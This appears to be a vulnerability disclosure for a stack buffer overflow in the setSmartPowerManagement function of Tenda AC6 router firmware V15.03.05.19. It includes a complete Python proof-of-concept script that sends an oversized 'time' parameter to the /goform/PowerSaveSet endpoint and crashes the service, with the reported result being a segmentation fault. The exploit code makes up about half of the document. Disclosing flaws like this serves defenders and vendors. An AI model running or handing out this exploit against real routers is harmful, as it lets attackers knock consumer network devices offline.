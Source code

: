 ## Tenda AC6 V15.03.05.19 firmware has a buffer overflow vulnerability in the setSmartPowerManagement function

A critical buffer overflow vulnerability exists in the `setSmartPowerManagement` function of the Tenda AC6 router firmware version V15.03.05.19.  
An attacker can exploit improper bounds handling in the `sscanf` function to overflow a stack-based buffer. Successful exploitation allows triggering a Denial of Service (DoS) condition or crashing the target service, potentially leading to complete device instability.

![](./picture/1.png)

```python
import requests

def create_payload():
	payload = b'00:00-00:'
	buffer_size = 0x400
	payload += b"A" * buffer_size
	return payload

def send_payload(url, payload):
    params = {'time': payload}
    response = requests.get(url, params=params)
    
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    url = 'http://192.168.52.138/goform/PowerSaveSet'
    payload = create_payload()
    send_payload(url, payload)

```

Achieved Result: Segmentation Fault
![](./picture/2.png)


